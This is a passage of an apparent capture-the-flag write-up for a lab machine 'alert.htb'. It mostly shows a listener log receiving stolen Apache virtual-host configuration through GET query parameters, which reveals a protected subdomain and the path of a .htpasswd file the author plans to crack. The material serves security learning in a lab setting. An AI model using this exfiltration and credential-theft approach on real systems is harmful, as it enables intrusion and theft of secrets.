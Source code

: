 This time we found a `subdomain` and the hint that there was a `htpasswd` existing which could contain a `hash`.

```c
10.129.27.137 - - [23/Nov/2024 22:22:54] "GET /?data=<pre><VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

</pre>
 HTTP/1.1" 501 -
10.129.27.137 - - [23/Nov/2024 22:22:57] code 501, message Unsupported method ('GET')
10.129.27.137 - - [23/Nov/2024 22:22:57] "GET /?data=<pre><VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

```